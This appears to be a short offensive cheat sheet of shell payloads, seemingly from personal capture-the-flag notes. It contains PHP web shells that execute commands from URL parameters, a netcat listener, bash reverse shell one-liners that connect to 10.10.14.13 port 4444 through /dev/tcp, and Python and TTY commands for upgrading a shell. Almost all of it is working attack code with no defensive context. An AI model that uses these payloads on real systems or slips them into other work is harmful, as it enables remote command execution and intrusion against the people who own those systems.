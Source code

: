 # Linux  PHP > Rev Shell > Shell Upgrade Commands

##🐈‍⬛ PHP
```
<?php system($_GET['cmd']);?>

<?php
if (isset($_GET['command'])) {
    exec($_GET['command']);
}
?>
```

## ⭐ Attacker
```
nc -lvnp 4444
```
##🌙 Victim
```

/bin/bash -i 5<> /dev/tcp/10.10.14.13/4444 0<&5 1>&5 2>&5
bash -i >& /dev/tcp/10.10.14.13/4444 0>&1

```

## 🎃 Python Shell Upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 🎃 TTY Shell Upgrade

```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```
